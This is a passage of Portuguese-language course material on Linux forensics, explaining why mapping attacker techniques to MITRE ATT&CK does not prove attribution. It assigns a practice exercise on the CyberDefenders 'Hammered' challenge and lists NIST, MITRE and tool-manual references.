#### Limitações e a Distinção entre Mapeamento de Técnicas e Atribuição
O mapeamento criterioso das evidências contra a matriz MITRE ATT&CK permite descrever com alta precisão o **comportamento técnico** do adversário (*Tactics, Techniques, and Procedures* — TTPs) [3]. No entanto, **mapear uma técnica não comprova a identidade do atacante**. 

Em cibersegurança, a atribuição de autoria a um grupo de ameaça específico ou ator estatal requer elementos que extrapolam a análise de logs de um único endpoint:
* Técnicas, comandos de shell e mecanismos de persistência são de conhecimento público e amplamente disseminados em manuais de testes de intrusão (*red teaming*) e repositórios de código aberto.
* Diferentes grupos utilizam ferramentas comuns de prateleira (*dual-use tools* ou *living-off-the-land binaries* - LotL), como `nmap`, `curl`, `socat` e utilitários nativos de administração de sistemas.
* Atacantes experientes plantam deliberadamente pistas falsas (*false flags*), como strings de idiomas específicos em binários, horários de atividade programados ou o uso deliberado de ferramentas associadas historicamente a outros grupos, visando induzir os analistas a conclusões precipitadas.

Portanto, a perícia e a resposta a incidentes no nível de endpoint devem manter seu escopo delimitado à comprovação dos fatos técnicos e à contenção da ameaça, deixando assertivas de atribuição geopolítica ou de autoria formal para análises de inteligência de ameaças com fontes múltiplas e consolidadas.

---

### Exercício Prático: Estudo de Caso com o Desafio Hammered

Como atividade prática desta aula, os estudantes deverão realizar uma análise forense completa utilizando como estudo de caso o desafio **Hammered**, disponibilizado publicamente pela plataforma **CyberDefenders** [6].


---

### Referências Bibliográficas

[1] National Institute of Standards and Technology (NIST). *Incident Response Recommendations and Considerations for Cybersecurity Risk Management: A CSF 2.0 Community Profile* (NIST Special Publication 800-61 Rev. 3). Gaithersburg: NIST, 2025. Disponível em: <https://csrc.nist.gov/pubs/sp/800/61/r3/final>

[2] Kent, Karen; Chevalier, Suzanne; Grance, Tim; Dang, Hung. *Guide to Integrating Forensic Techniques into Incident Response* (NIST Special Publication 800-86). Gaithersburg: National Institute of Standards and Technology (NIST), 2006. Disponível em: <https://www.nist.gov/publications/guide-integrating-forensic-techniques-incident-response>

[3] The MITRE Corporation. *MITRE ATT&CK Matrix for Enterprise: Linux*. McLean: The MITRE Corporation, 2024. Disponível em: <https://attack.mitre.org/matrices/enterprise/linux/>

[4] TryHackMe. *Linux Endpoint Investigation*. TryHackMe, 2023. Disponível em: <https://tryhackme.com/module/linux-endpoint-investigation>

[5] Elastic Security Labs. *Linux Detection Engineering: A primer on persistence mechanisms*. Mountain View: Elastic, 2023. Disponível em: <https://www.elastic.co/security-labs/threat-command/primer-on-persistence-mechanisms>

[6] CyberDefenders. *Hammered*. CyberDefenders, 2020. Disponível em: <https://cyberdefenders.org/blueteam-ctf-challenges/hammered/>

[7] systemd Project. *journalctl(1) — Query the systemd journal*. systemd Manual Pages, freedesktop.org. Disponível em: <https://www.freedesktop.org/software/systemd/man/latest/journalctl.html>

[8] Kerrisk, Michael et al. *ss(8) — Another utility to investigate sockets*. Linux man-pages project / iproute2. Disponível em: <https://man7.org/linux/man-pages/man8/ss.8.html>

[9] procps-ng Project. *ps(1) — Report a snapshot of the current processes*. Linux man-pages project. Disponível em: <https://man7.org/linux/man-pages/man1/ps.1.html>

[10] Free Software Foundation (FSF). *GNU Coreutils: stat invocation*. GNU Operating System Manual. Disponível em: <https://www.gnu.org/software/coreutils/manual/html_node/stat-invocation.html>